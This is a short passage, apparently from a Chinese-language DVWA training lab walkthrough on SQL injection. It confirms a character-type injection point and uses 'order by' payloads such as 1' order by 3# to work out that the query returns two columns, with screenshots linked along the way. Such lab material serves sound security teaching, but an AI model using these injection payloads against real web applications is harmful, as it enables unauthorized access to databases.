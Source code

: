 猜出到是字符型注入，我们继续输入1' and '1' ='1

![image-20230805095528458](./DVWA.assets/image-20230805095528458.png)



**（2）判断字段数  order by**

输入1' order by 1# 

<img src="./DVWA.assets/image-20230805095611537.png" alt="image-20230805095611537" style="zoom:33%;" />

输入1' order by 2# 也没有报错

<img src="./DVWA.assets/image-20230805095628470.png" alt="image-20230805095628470" style="zoom:33%;" />

输入1' order by 3#时报错了，说明字段只有2列

![image-20230805095654016](./DVWA.assets/image-20230805095654016.png)
